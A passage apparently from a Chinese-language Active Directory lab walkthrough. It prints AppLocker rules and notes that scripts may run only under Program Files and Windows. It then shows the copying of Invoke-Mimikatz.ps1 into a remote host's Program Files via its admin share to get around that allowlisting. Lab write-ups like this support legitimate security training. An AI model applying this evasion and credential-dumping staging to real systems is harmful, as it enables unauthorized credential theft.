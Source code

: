 
PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : 5a9340f3-f6a7-4892-84ac-0fffd51d9584
Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US
Description         :
UserOrGroupSid      : S-1-1-0
Action              : Allow

PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : 10541a9a-69a9-44e2-a2da-5538234e1ebc
Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US
Description         :
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 06dce67b-934c-454f-a263-2515c8796a5d
Name                : (Default Rule) All scripts located in the Program Files folder
Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 9428c672-5fc3-47f4-808a-a0011f36dd2c
Name                : (Default Rule) All scripts located in the Windows folder
Description         : Allows members of the Everyone group to run scripts that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow
```

留意最后两条，所以脚本只可以在```{%PROGRAMFILES%\*}```和```{%WINDIR%\*}```下执行

把脚本拷贝到 \\dcorp-adminsrv\Program Files
```
 PS C:\ad> copy Invoke-Mimikatz.ps1 \\dcorp-adminsrv\c$\"Program Files"
PS C:\ad> ls \\dcorp-adminsrv\c$\"Program Files"


    Directory: \\dcorp-adminsrv\c$\Program Files

